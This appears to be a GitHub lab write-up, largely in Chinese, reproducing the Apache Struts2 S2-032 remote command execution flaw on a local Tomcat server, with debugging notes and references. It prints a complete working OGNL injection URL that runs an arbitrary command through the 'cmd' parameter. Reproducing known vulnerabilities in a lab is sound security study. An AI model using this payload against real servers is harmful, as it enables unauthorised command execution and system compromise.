 # S2-032 Demo

## Summary

Impact of vulnerability: Remote command execution

Affected Software:  `Struts 2.3.20` - `Struts 2.3.28` (except 2.3.20.3 and 2.3.24.3)

Problem: `Struts2`在开启了动态方法调用（Dynamic Method Invocation）的情况下，可以使用`method:<name>`的方式来调用名字是`<name>`的方法，而这个方法名将会进行`OGNL`表达式计算，导致远程命令执行漏洞。

## Environment

Struts2 Version: `Struts-2.3.24`

Server: `Tomcat 8.5.53`

IDE: `idea 2020.1.1 ULTIMATE`

## POC

![{AD9137BC-90B4-46DE-9213-2E79311142E0}_20200724105139]({AD9137BC-90B4-46DE-9213-2E79311142E0}_20200724105139.jpg)

Payload: 

```java
http://localhost:8080/s2_032_war_exploded/index.action?method:%23_memberAccess%3d@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS,%23res%3d%40org.apache.struts2.ServletActionContext%40getResponse(),%23res.setCharacterEncoding(%23parameters.encoding%5B0%5D),%23w%3d%23res.getWriter(),%23s%3dnew+java.util.Scanner(@java.lang.Runtime@getRuntime().exec(%23parameters.cmd%5B0%5D).getInputStream()).useDelimiter(%23parameters.pp%5B0%5D),%23str%3d%23s.hasNext()%3f%23s.next()%3a%23parameters.ppp%5B0%5D,%23w.print(%23str),%23w.close(),1?%23xx:%23request.toString&pp=%5C%5CA&ppp=%20&encoding=UTF-8&cmd=calc
```

## Debug

类似于`S2-016`，首先在`DefaultActionMapper`类中处理`method:`处下个断点：

`s2-032/web/WEB-INF/lib/struts2-core-2.3.24.jar!/org/apache/struts2/dispatcher/mapper/DefaultActionMapper.class:52`

![{178585E3-B3AB-45A1-B0C7-ECC39C2BD274}_20200724112506]({178585E3-B3AB-45A1-B0C7-ECC39C2BD274}_20200724112506.jpg)

然后一直点击调试栏红色X的按钮回到`struts2`初始过滤器`StrutsPrepareAndExecuteFilter`，剩下的就和S2-016一样咯。

## Reference

- [S2-032](https://cwiki.apache.org/confluence/display/WW/S2-032)
- [S2-032 远程代码执行漏洞（CVE-2016-3081）]( https://github.com/vulhub/vulhub/blob/master/struts2/s2-032/README.zh-cn.md)
- [struts2漏洞中关于动态方法调用的一点思考](https://blog.csdn.net/zzkk_/article/details/77159524)

